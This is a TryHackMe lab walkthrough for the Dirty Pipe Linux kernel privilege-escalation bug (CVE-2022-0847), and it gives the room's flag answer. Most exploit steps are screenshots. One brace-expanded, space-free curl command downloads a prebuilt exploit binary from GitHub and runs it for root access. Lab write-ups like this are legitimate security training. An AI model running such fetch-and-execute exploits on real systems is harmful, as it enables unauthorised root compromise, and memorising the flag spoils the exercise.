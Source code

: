 ```yaml
---
title: Dirty Pipe CVE-2022-0847
author: CYB3RM3
name: CYB3RM3 | Dirty Pipe CVE-2022-0847
date: 2022-03-25 20:51:36 +0100
categories: [TryHackMe, CVE]
tags: [CVE]
---
```


Interactive lab for exploiting Dirty Pipe (CVE-2022-0847) in the Linux Kernel

THM Room [https://tryhackme.com/room/dirtypipe](https://tryhackme.com/room/dirtypipe)


## TASK 1 : Info - Introduction and Deploy
### Deploy the machine by clicking on the green "Deploy" button at the top of this task!
No Answer

## TASK 2 : Tutorial - Exploit Background
### Read the information in the task and understand how Dirty Pipe works.
No Answer

## TASK 3 : Practical - A Weaponised PoC
###  Follow along with the steps described in the task if you haven't already done so.

First generate the Hash and get the offset :

![Offset](/images/thm/dirtypipe/dirtypipe_1.png)
_Offset_

Then compile the exploit and launch it to get root access :

![Exploit](/images/thm/dirtypipe/dirtypipe_2.png)
_Exploit_

No Answer

### Switch user (su) into your newly created root account. What is the flag found in the /root/flag.txt file

![Flag](/images/thm/dirtypipe/dirtypipe_3.png)
_Flag_

Answer : THM{MmU4Zjg0NDdjNjFiZWM5ZjUyZGEyMzlm}

### As mentioned previously, we have accidentally overwritten other user accounts by exploiting Dirty Pipe in this manner. This could cause issues for the server; thus, as professionals, we must clean up after our exploits. Using your root shell, restore the original /etc/passwd file from your backup.

![/etc/passwd](/images/thm/dirtypipe/dirtypipe_3.png)
_/etc/passwd_

No Answer 

## TASK 4 : Practical - Bonus TASK A Second Exploit


### Exploit the target using bl4sty's exploit for Dirty Pipe

Following the steps :

![Exploit](/images/thm/dirtypipe/dirtypipe_3.png)
_Exploit_

No Answer.

### Make sure to clean up after yourself! Remove the SUID binary created by the script (/tmp/sh).

```console
rm /tmp/sh
```
{: .nolineno }

### [Optional] Find another exploit for this vulnerability online. Review the code to ensure that it does what it claims to do, then upload it to the target and attempt to exploit the vulnerability a third way.

Using Carlos Sevieira exploit <https://github.com/carlosevieira/Dirty-Pipe> :

```console
{curl,-s,-k,https://raw.githubusercontent.com/carlosevieira/Dirty-Pipe/main/exploit-static,-o,/tmp/exploit-dirty-pipe};{chmod,+x,/tmp/exploit-dirty-pipe};/tmp/exploit-dirty-pipe
```
{: .nolineno }

No Answer.

## TASK 5 : Info - Conclusion 


### I understand the Dirty Pipe vulnerability!

No Answer.